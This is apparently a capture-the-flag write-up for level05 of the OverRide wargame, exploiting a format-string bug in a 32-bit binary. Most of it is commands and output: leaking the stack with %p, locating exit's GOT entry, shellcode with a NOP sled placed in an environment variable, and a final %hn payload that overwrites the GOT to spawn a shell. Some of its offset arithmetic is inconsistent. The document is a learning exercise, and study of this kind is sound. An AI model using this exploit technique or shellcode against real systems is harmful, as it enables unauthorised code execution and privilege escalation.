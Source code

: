 # Solution

the program use fgets to get user input and then print it in lowercase
since it use printf without checking the content of the buffer the program is 
vulnerable to printf format bug string attack.

```sh
level05@OverRide:~$ ltrace ./level05 
__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
fgets(hello world
"hello world\n", 100, 0xf7fcfac0)                = 0xffffd5c8
printf("hello world\n"hello world
)                                = 12
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

```sh
level05@OverRide:~$ (python -c 'print "AAAAaaaa" + "%p " * 20';) | ./level05
aaaaaaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ef 0xffffd5ee (nil) 0xffffffff 0xffffd674 0xf7fdb000 0x61616161 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 
```
we can see that our buffer is located at the 10th and 11th address

```sh
0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
```
and since the only call after printf is exit we will overwrite the address of exit
with the address of our payload

```sh
readelf -S ./level05
[22] .got              PROGBITS        080497c4 0007c4 000004 04  WA  0   0  4
[23] .got.plt          PROGBITS        080497c8 0007c8 000020 04  WA  0   0  4
```

```sh
(gdb) x/x 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```
We know where to write now we need to build our payload but first let put our shellcode 
with a nop sled in a env variable

```sh
export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
get the address of our shellcode

```sh
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *payload = getenv("PAYLOAD");
    if (payload) {
        printf("PAYLOAD address: %p\n", (char *)payload);
    } else {
        printf("PAYLOAD environment variable not set.\n");
    }
    return 0;
}


level05@OverRide:~$ /tmp/a.out 
PAYLOAD address: 0xffffdf15
```
we need to put the address of our shellcode instead of the exit address in the got
we will use $n of printf to write the right amount of byte (shellcode adr) in the exit got adr
since our shellcode adr is very big (0xffffdf15 = 4294958869 in decimal)we will write it in two time and increment the shellcode
adr a bit so we end up in the nop sled

PAYLOAD = `shellcode adr` + `shellcode adr+2` + `0xdf31(dec)` + %10$n + `(0xffff - 0xdf31)dec` + %11$n

```sh
>>> 0xdf15
57109
>>> hex(57137)
'0xdf31'
>>> 0xffff              #here we increment the result to get in the nop sled
65535
>>> 65535 - 57109
8426
>>> 65535 - 57130
8405
>>> 65535 - 57137
8398
```
## TODO

printf format attack writting got table of exit to redirection inside nop sled address

```sh
export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%57137x%10$hn%8390x%11$hn"'; cat) | ./level05
```
